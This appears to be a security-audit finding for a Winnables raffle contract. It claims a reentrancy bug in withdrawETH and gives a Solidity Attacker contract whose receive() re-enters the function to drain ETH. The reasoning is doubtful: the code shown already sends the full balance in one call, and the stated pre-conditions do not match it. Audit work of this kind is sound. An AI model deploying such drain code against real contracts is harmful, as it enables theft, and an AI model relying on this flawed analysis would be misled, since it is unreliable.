 Huge Laurel Condor

Medium

# An attacker will steal funds from the contract by exploiting a reentrancy vulnerability

### Summary

The missing reentrancy guard in the withdrawETH function allows an attacker to repeatedly call the function before the previous execution completes. This could lead to the attacker draining the entire balance of the contract.

### Root Cause

The withdrawETH function in the smart contract lacks a reentrancy guard, which permits an attacker to repeatedly call the function before the first call is completed. This oversight allows the attacker to continuously withdraw funds from the contract, potentially draining all ETH from the contract's balance.

### Internal pre-conditions

The attacker has a small amount of ETH in the contract.
The withdrawETH function is callable by the attacker without restrictions.
There is a significant amount of ETH in the contract's balance.

### External pre-conditions

The contract contains a balance of ETH.
The attacker has an address with ETH in the contract.
No other function or guard in the contract prevents reentrant calls.

### Attack Path

The attacker initiates the withdrawETH function.
Before the first execution completes, the attacker triggers another withdrawETH call via a fallback function in a smart contract.
The attacker repeats this process until all ETH is drained from the contract.

### Impact

The protocol suffers a complete loss of funds. The attacker successfully drains all ETH from the contract's balance by exploiting the reentrancy vulnerability. This could result in significant financial loss for the contract and its users.

### PoC

https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesTicketManager.sol#L300

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableRaffle {
    uint256 private _lockedETH;
    
    // Assume this is the vulnerable withdrawETH function
    function withdrawETH() external {
        uint256 balance;
        unchecked {
            balance = address(this).balance - _lockedETH;
        }
        _sendETH(balance, msg.sender);
    }
    
    function _sendETH(uint256 amount, address to) internal {
        // Sending ETH to the caller
        (bool success, ) = to.call{value: amount}("");
        require(success, "Transfer failed");
    }

    // Fallback function to receive ETH
    receive() external payable {}
}

contract Attacker {
    VulnerableRaffle public vulnerableContract;

    constructor(address _vulnerableAddress) {
        vulnerableContract = VulnerableRaffle(_vulnerableAddress);
    }

    // Function to attack the contract
    function attack() public payable {
        require(msg.value >= 1 ether, "Send at least 1 ETH to attack");
        // Initiate withdrawal
        vulnerableContract.withdrawETH();
    }

    // Fallback function that gets triggered on receiving ETH
    receive() external payable {
        if (address(vulnerableContract).balance > 1 ether) {
            // Re-enter withdrawETH until the contract is drained
            vulnerableContract.withdrawETH();
        }
    }
}
Explanation:
The VulnerableRaffle contract has a vulnerable withdrawETH function.
The Attacker contract is designed to exploit this vulnerability. When attack() is called, it initiates the withdrawETH function.
When the contract sends ETH back to the Attacker, the fallback function (receive()) is triggered, allowing the attacker to re-enter the withdrawETH function before the first execution completes.
This loop continues until all ETH in the vulnerable contract is drained.

### Mitigation

Explanation of Mitigation:
ReentrancyGuard: By inheriting from OpenZeppelin's ReentrancyGuard, we can use the nonReentrant modifier to prevent reentrant calls to the withdrawETH function.
nonReentrant Modifier: This modifier ensures that a function cannot be entered again while it is still executing. It effectively blocks reentrancy attacks.
Other Security Considerations: Always consider using the checks-effects-interactions pattern and carefully managing your contract's state before interacting with external contracts.